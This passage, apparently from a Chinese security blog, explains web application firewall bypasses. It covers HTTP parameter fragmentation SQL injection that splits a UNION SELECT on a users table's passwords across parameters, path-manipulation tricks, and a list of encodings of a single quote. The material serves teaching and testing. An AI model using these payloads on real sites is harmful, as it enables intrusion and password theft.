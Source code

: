         

这是中间件与参数拼接的关系图-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200921222946719.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

##### HPF HTTP分割注绕过

这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)-
举例：

    /?a=1+union/&b=/select+1,pass/&c=/from+users–
    　　select * from table where a=1 union/* and b=/select 1,pass/ limit */from users—
    
        

看罢上面两个示例，发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，到了数据库执行查询时再合并语句

参考文章：

    https://zhuanlan.zhihu.com/p/79356937
    
        

* * *

##### 最后另类绕过合集

**路径系列：**

    ?path=/path/././././blah/blah/blah/../../../vuln.php
    
    /path: /vuln. php?value=PAYLOAD
    /path/;lol=lol/vuln. php?value=PAYLOAD
    /path/vuln.php/lolol?value=PAYLOAD
    /path/vuln.php;lol=lol?value=PAYLOAD
    
        

**编码绕过**

    URL Encode - %27 
    
    Double URL Encode - %2527 
    
    UTF-8 (2 byte) - %c0%a7 
    
    UTF-8 (JAVA) - \ uc0a7 
    
    HTML Entity - &apos；
    
    HTML Entity Number - &#27； 
    
    Decimal - $#39
    
    Unicode URL Encoding - %u0027 
    
    Base64 - Jw==
    
        

**iis+asp(x)**

**%u 特性：**
